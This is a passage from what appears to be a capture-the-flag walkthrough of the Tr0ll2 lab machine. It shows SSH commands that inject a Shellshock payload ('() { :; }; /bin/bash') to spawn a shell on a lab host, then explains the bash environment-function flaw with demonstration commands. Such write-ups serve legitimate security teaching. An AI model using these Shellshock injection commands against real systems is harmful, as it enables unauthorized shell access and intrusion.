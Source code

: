 
``` 
ssh -i noob noob@192.168.217.129 -t "() { :; }; pwd"
/home/noob
TRY HARDER LOL!
Connection to 192.168.217.129 closed.
```

Excellent! The previous -t flag of the SSH command is useful when you want to run interactive applications on the remote server. Now let's see if we can spawn a shell:

``` 
ssh -i noob noob@192.168.217.129 -t "() { :; }; /bin/bash"
noob@Tr0ll2:~$ uname -a
Linux Tr0ll2 3.2.0-29-generic-pae #46-Ubuntu SMP Fri Jul 27 17:25:43 UTC 2012 i686 i686 i386 GNU/Linux
```

Finally, we're in! Before continuing though, I thought it would be helpful to better understand how Shellshock works.

### Shellshock explained

Because Bash is a scripting language, you can do things like defining functions:

``` 
myfunction() { echo "I am a function"; }
```

And then you call it:

``` 
noob@Tr0ll2:~$ myfunction
I am a function
```

You can also export functions to environment variables, so they can be run by new bash instances:

``` 
noob@Tr0ll2:~$ export -f myfunction
noob@Tr0ll2:~$ env 
[...]
myfunction=() {  echo "I am a function"
}
```

Now the function definition is inside the environment variable, and it can be evaluated:

``` 
bash -c myfunction
I am a function
```

This is intended behavior so far, but there is a vulnerability in which the evaluation continues even after the function end. 

``` 
export shocking='() { echo "This is safe" ; }; echo "This is NOT safe"'
bash -c shocking
This is NOT safe
This is safe
```
